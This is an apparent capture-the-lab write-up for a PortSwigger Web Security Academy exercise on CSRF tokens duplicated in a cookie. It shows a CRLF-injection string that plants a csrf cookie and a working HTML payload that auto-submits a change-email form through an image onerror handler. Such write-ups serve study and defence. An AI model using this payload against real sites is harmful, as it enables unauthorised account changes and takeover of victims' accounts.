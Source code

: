 #CSRF #CSRF-Tokens 

CSRF Where token is simply duplicated in a cookie: [link](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie.

this challenge like the previous challenge it have a CRLF injection we use it to change value of cookie and give it value of csrf token in the  form
`%0d%0aSet-Cookie:%20csrf=myToken%3bSameSite=None`

payload

```
<html>
	<form action="https://0a4400c704ab63408068036a001b005c.web-security-academy.net/my-account/change-email" method="POST">
		<label>Email</label>
		<input required="" type="email" name="email" value="ammmeo@gmail.com">
		<input required="" type="hidden" name="csrf" value="ut2jeum08BGH1dxn1rvkQqf4Nm4X12X7">
		<button class="button" type="submit"> Update email </button>
	</form>
	<img src="https://0a4400c704ab63408068036a001b005c.web-security-academy.net/?search=cc%0d%0aSet-Cookie:%20csrf=ut2jeum08BGH1dxn1rvkQqf4Nm4X12X7%3bSameSite=None" onerror="document.forms[0].submit()">

</html>

```